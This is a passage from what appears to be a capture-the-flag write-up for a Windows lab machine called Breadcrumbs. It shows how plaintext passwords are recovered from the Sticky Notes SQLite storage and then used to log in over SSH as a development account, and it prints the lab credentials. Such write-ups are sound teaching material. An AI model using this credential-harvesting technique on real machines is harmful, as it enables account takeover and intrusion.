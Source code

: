 ```
</html>
```

Going over to the AppData folder for sticky notes we see a note present.

```
juliette@BREADCRUMBS C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState>dir
 Volume in drive C has no label.
 Volume Serial Number is 7C07-CD3A

 Directory of C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState

01/15/2021  05:10 PM    <DIR>          .
01/15/2021  05:10 PM    <DIR>          ..
01/15/2021  05:10 PM            20,480 15cbbc93e90a4d56bf8d9a29305b8981.storage.session
11/29/2020  04:10 AM             4,096 plum.sqlite
01/15/2021  05:10 PM            32,768 plum.sqlite-shm
01/15/2021  05:10 PM           329,632 plum.sqlite-wal
               4 File(s)        386,976 bytes
               2 Dir(s)   6,482,231,296 bytes free
```

We could download this and open the sqlite database but for simplicty and since it is stored in plaintext we simply switch to powershell in the SSH shell and cat the content to the screen. 
Right at the bottom we see the credentials for the development account `development:fN3)sN5Ee@g`. The administrator account is also mentioned but there are no credentials present for it.

```
PS C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState> cat .\plum.sqlite-wal
...[snip]...
☺♫¹♫¹☺Ãƒ◄‚#    UU♠♠\id=48c70e58-fcf9-475a-aea4-24ce19a9f9ec juliette: jUli901./())!
\id=fc0d8d70-055d-4870-a5de-d76943a‚D☺¶ƒ◄-     UU♠♠\id=48c70e58-fcf9-475a-aea4-24ce19a9f9ec juliette: jUli901./())!
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
\id=48924119-7212-4b01-9e0f-ae6d678d49b2 administrator: [MOVED]ManagedPosition=Yellow0c32c3d8-7c60-48ae-939e-798df198cfe78e814e57-9d28-4288-961c-31c806338c5Ø”ýDBjØ”ýPR
```

## Credentials manager

Logging in via SSH with our new acount we can see a custom looking binary in the `C:\development` folder.

```
$ ssh development@10.129.175.242
development@10.129.175.242's password:
Microsoft Windows [Version 10.0.19041.746]
(c) 2020 Microsoft Corporation. All rights reserved.

development@BREADCRUMBS C:\Users\development>
```
